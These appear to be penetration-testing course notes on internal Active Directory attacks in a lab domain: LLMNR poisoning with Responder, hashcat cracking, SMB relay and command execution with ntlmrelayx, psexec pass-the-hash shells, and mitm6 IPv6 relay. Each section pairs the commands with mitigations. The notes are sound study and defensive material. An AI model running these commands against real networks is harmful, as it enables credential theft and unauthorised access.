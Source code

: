 
- for impacket v 0.9.19 [reference](https://github.com/Dewalt-arch/pimpmykali)
## LLMNR Poisoning 
- For [reference](https://tcm-sec.com/llmnr-poisoning-and-how-to-prevent-it/)
- Used to identify hosts when DNS fails to do so
- Previously known as NBT-NS
- Key flaw is that the services utilize a user's username and NTLMv2 hash when appropriately responded to   
-  `sudo responder -I eth0 -dwPv` -- this will give hash for user
- `hashcat --help | grep NTLM` -- this will give all module for NTLM in hashcat
- `hashcat -m 5600 hashes.txt /path/to/wordlist`
###### Mitigation
- To disable LLMNR and NBT-NS
	- `Local Computer Policy > Computer Configuration > Administrative Templates > Network > DNS Client > Turn Off Multicast Name Resolution > enable`
- If a company must use or cannot disable LLMNR/NBT-NS, the best course of action is 
	- Require Network Access Control
	- Require long and complex user passwords

## SMB Relay Attacks
- For [reference](https://tcm-sec.com/smb-relay-attacks-and-how-to-prevent-them/)
- Instead of cracking hashes gathered with Responder, we can instead relay hose hashes to specific machines and potentially gain access.
- Requirement:
	- SMB signing must be **disabled** or **not enforced** on the target.
	- Relayed user credentials must be admin on machine for any any real value
- By default, SMB signing is not enabled or enforced on workstations. It is enabled or enforced on servers
- `nmap --script=smb2-security-mode -p445 IP -Pn`
- SMB Relay
	- `sudo mousepad /etc/responder/Responder.conf` SMB and HTTP off
	- `sudo responder -I eth0 -dwP`
	- Now we have to set up NTML relay
		- `ntlmrelayx.py -tf targets.txt -smb2support` or 
		- `ntlmrelayx.py -tf targets.txt -smb2support -i` -- i for interactive session 
		- after getting interactive session use `nc 127.0.0.1 1100`
		- or `ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"` 
- In lab try it on user-2
###### Mitigation
- Enable SMB Signing on all devices
	- Pro: Completely stops the attack
	- Con: Can cause performance issues with file copies
- Disable NTLM authentication on network
	- Pro: Completely stops the attack
	- Con: if Kerberos stops working, windows defaults back to NTLM
- Account tiering
	- Pro: Limits domain admins to specific tasks (e.g. only log onto servers with need for DA)
	- Con: Enforcing the policy may be difficult
- Local admin restriction
	- Pro: Can prevent a lot of lateral movement
	- Con: Potential increase in the amount of service desk tickets

## Gaining Shell Access
- using psexec in msf  --- we can do this with password or hashes (NT:LM)
- `psexec.py marvel.local/ppark:'passw0rd@123'@10.0.2.14`
- `psexec.py administrator@10.0.2.14 -hashes [hashes for administrator NT:LM]`
- if psexec gets blocked you can use `wmiexec.py` or `smbexec.py`

## IPV6 Attacks
- `sudo mitm6 -d marvel.local`
- Now we have to set up NTLMrelay (after setup run mitm6 cmd)
	- `ntlmrelayx.py -6 -t ldaps://[Doman Controller IP] -wh fakewpad.marvel.local -l lootme` 
###### Mitigation
- IPV6 poisoning abuses the fact that Windows queries for an IPV6 address even in IPV4-only environments. If you do not use IPV6 internally, the safest way to prevent mitm6 is to block DHCPv6 traffic and incoming router advertisements in Windows Firewall via Group Policy. Disabling IPV6 entirely may have unwanted side effects. Setting the following predefined rules to Block instead of Allow prevents the attack from working:
	- (Inbound) Core Networking - Dynamic Host Configuration Protocol for IPV6 (DHCPv6-In)
	- (Inbound) Core Networking - Router Advertisement (ICMPv6-In)
	- (Outbound) Core Networking - Dynamic Host Configuration Protocol for IPV6 (DHCPv6-Out)
- If WPAD is not in use internally, disable it via Group Policy and by disabling the WinHttpAutoProxySvc service.
- Relaying to LDAP and LDAPS can only be mitigated by enabling both LDAP sigining an LDAP channel binding
- Consider Administrative users to the Protected Users group or marking them as Account is sensitive and cannot be delegated, which will prevent any impersonation of that user via delegation.

## Passback Attack
- [Reference](https://www.mindpointgroup.com/blog/how-to-hack-through-a-pass-back-attack

## Initial Internal Attack Strategy
- Begin day with mitm6 or Responder
- Run scans to generate traffic
- If scans are taking too long, look for websites in scope (http_version)
- Look for default credentials on web logins
	- Printers
	- Jenkins
	- Etc
- Think outside the box